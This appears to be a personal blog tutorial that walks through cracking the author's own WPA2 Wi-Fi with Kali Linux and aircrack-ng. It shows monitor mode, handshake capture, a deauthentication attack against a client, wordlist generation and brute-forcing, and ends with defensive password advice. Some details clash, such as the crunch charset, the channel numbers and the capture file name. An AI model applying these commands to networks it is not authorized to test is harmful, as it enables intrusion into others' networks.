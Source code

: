 ```yaml
---
title: Hack protected WPA/WPA2 Wi-fi
description: Use Kali Linux to get WPA/WPA2 password of Wi-fi
date: 2020-08-06 17:00:00 +0200
tags: [hack, kali, Wi-fi, wpa]
categories: hacking
image: /img/blog/wifi.png
comments: true
lang: en
translations:
  fr: hacker-password-wpa-wifi
---
```


I decided to hack my [my new router](../fr/2017-10-11-installer-bridge-sfr-box-4k.md) just to try and have a fun. Spoiler : it was really easy.

So to make my tests I tried a famous Linux distribution: [Kali Linux](https://www.kali.org/). This distribution have many pre-instaled hacking tools who help us.

![Logo de Kali Linux](/img/blog/kali.svg.png)

I installed Kali Linux in [dual-boot](https://fr.wikipedia.org/wiki/Multiboot) but you can also use it in Live USB mode or with a virtual machine like [VirtualBox](https://www.virtualbox.org/).

## How it works

Here we will use [Aircrack-ng](https://www.aircrack-ng.org/) which is an open-source software suite used to monitor wireless networks and "break" the WEP and WPA keys of Wi-fi networks. The attack will take place in several phases:

- **Preparation** of your network card
- **Analysis** of the Wi-fi target
- **Capturing** a **WPA handshake** _(a connection to the Wi-fi network)_ by disconnecting a device on the Wi-fi
- **WPA handshake** password cracking by _bruteforce_

---

## Preparation

The first step is to activate the **monitor mode** of the network card set up. To do this we list the available network cards with `airmong-ng`. Open a terminal and type:

```bash
airmon-ng
```

> If your network card does not display, it is not compatible. You have to buy one _(a USB Wi-fi dongle is enough)_.

In our case we see that we can use our **wlan0** network card. So we activate the **monitor mode** with the following command::

```bash
airmon-ng start wlan0
```

From here, the network card **wlan0** is no longer available _(you no longer have internet)_, and a new network card appears. It can be found by doing an `ifconfig`. In my case, it is **wlan0mon**..

## Analysis

Now we can _sniff_ the network packets that circulate around us with `airodump`:

```bash
airodump-ng wlan0mon
```

This command will find additional information on Wi-fi including:

- the **BSSID**
- the **CH**annel
- the **AUTH**, the mode of authentication
- the **ESSID**, the name of the router

Among all the lines, my network appears. Remember to write down the information as it will be useful to us.

```
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 18:D6:C7:85:7E:A0  -45        6        0    0   2  54e  WPA2 CCMP   PSK  TP-LINK_7EA0
```

## Capturing a WPA handshake

A **WPA handshake** takes place when a device is connected to the Wi-fi. Our goal is to capture one in order to recover the encrypted password.

- sniff the Wi-fi and wait for a device to connect to the Wi-fi
- sniff the Wi-fi and cause a disconnection and wait for the device to reconnect

In order to test, I will disconnect my **Blackberry** already connected to it.

### Wi-fi Scan

So we scan the network with the `airodump-ng` command and options:

- `-c` options to specify the channel
- `--bssid`, my router's ID.
- `w` the directory where the output files will be stored

```bash
airodump-ng -c 10 --bssid 18:D6:C7:85:7E:A0 -w tplink  wlan0mon
```

We leave this command in the background, it will produce 3 files, one of which is of type _xml_. This is the one we are interested in because it contains more details about the devices connected to the wi-fi. By opening this one, we can find very easily the information of my Blackberry. Here is an extract of the file:

```xml
<client-mac>94:EB:CD:25:E0:C1</client-mac>
<client-manuf>BlackBerry RTS</client-manuf>
```

### Disconnection

Now that we have all the information, we will send a packet that will **request disconnection** of my Blackberry. We use `aireplay-ng` with the parameters:

- `-0` to send a de-authentication signal.
- `-a` To the BSSID of our Wi-fi.
- `-c` The BSSID of the target
- the network card used

```bash
aireplay-ng -0 2 -a 18:D6:C7:85:7E:A0 -c 94:EB:CD:25:E0:C1 wlan0mon
```

The device disconnects and reconnects automatically. The result is a **WPA Handshake** which is contained in the _tplink.cpa_ file.

## Cracking

Now that we have obtained a packet containing the **encrypted WPA password**, we just have to test several combinations until we find a matching one: this is called a **bruteforce**.

### the dictionary

To find a password we need... passwords! You can find [multi-gigabyte text files of the most commonly used passwords](http://www.wirelesshack.org/wpa-wpa2-word-list-dictionaries.html). In my case, I know that the password of my Wi-fi contains 8 digits. So I'm going to use the `crunch` command to generate all the possible combinations. `crunch` uses several parameters:

1. the minimum length _(8)_
2. the maximum length _(8)_
3. the characters to be used _(0123...9)_

We're sending it all in a _passwords.txt_ file.

```bash
crunch 8 8 12345678 > passwords.txt
```

In a few seconds we get a file of **43046721 lines** weighing **369 MB**!!!!

### The bruteforce

We're taking action. Here we're going to brute force the password. To do this we use `aircrack-ng` which will encrypt the passwords one by one and check if it matches the password of the network packet we captured (Get yourself a coffee as it can be long).

To do this we use `aircrack-ng`.

```bash
aircrack-ng -a2 -b 18:D6:C7:85:7E:A0 -w /root/Desktop/passwords.txt /root/Desktop/tplink.cap
```

And after a while::

![success](/img/blog/crack_wpa.png)

## Conclusion

Through this little test we see that it is very easy to "crack" a Wi-fi with a WPA password. The tools at our disposal are easy to access and no specific hardware is required. However by applying some simple rules we can avoid this kind of risk.

Remember, the password used was only 8 numeric characters. The number of combinations fit into a 380 MB file. If the password had included alphabetic characters, the dictionary would have exceeded the terabyte. The bruteforce would certainly have lasted several weeks.

So by applying a more complex password, we reduce the risk. By changing it regularly, it is not possible to crack the combination quickly enough.

Furthermore it is possible to adapt the wi-fi signal so that it is not visible in the whole building.

As soon as possible, use the Ethernet cable, which is still the most secure solution.

## Links

- [Aircrack-ng](https://www.aircrack-ng.org/)
- [Kali Linux - Penetration Testing and Ethical Hacking Linux Distribution](https://www.kali.org/)
